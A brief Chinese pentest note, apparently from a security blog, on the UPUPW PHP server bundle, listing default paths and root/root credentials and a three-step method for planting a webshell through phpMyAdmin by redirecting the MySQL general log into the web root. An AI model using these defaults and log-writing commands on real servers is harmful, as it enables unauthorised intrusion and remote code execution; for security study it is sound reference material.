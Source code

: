 # UPUP'W

---

介绍

```
搭建网站的组件，有自带waf
```
默认
```
u.php
root/root 连接数据测试后跳转phpfinfo页面
pmd -> phpmyadmin
```

错误页面

<img src='https://p-t001.github.io/image/blog/upupw.png' align='left' style='width:900px;height:500px'>

phpmyadmin三步getshell（需要root权限，需要知道网站路径）

```
将查询内容记录到日志里面
set global general_log='on';  #开启日志

---
SET global general_log_file='D:/xxxx/WWW/cmd.php'; #修改日志路径

---
SELECT 一句话;
```
